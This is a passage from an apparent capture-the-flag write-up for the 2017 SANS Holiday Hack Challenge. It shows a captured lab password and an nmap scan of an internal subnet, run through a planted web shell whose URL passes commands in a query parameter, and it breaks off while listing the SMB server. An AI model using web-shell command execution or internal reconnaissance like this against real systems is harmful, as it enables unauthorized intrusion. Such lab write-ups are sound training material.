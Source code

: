 ```
alabaster_snowball@l2s:/tmp/asnow.vZQOUSD0GKHr8q1lf97RX9cq$ 
```

Alabaster Snowball's password is `stream_unhappy_buy_loss`.


# 3) The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

For some reason, `nmap` is already installed on the Letters to Santa system. We are also told that
the server we are looking for is in the 10.142.0.0/24 subnet from the scope section:

> SCOPE: For this entire challenge, you are authorized to attack ONLY the Letters to Santa system at l2s.northpolechristmastown.com AND other systems on the internal 10.142.0.0/24 network that you access through the Letters to Santa system. 

Since we are looking for an SMB server, we also have to tell nmap to include the standard TCP port used by SMB (445)
in its scan. This is also made clear from the first hint to the level:

> Nmap has default host discovery checks that may not discover all hosts. To customize which ports Nmap looks for during host discovery, use -PS with a port number, such as -PS123 to check TCP port 123 to determine if a host is up.
>
> -- Holly Evergreen, Hint 1

Performing the scan (again using the web shell from before), we find a couple of internal servers:

```
$ nmap -PS445 10.142.0.0/24
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=nmap%20-PS445%2010.142.0.0/24

Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-16 14:50 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00022s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4444/tcp open  krb524
5555/tcp open  freeciv

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00021s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
389/tcp  open  ldap
8080/tcp open  http-proxy

Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Host is up (0.00072s latency).
Not shown: 996 filtered ports
```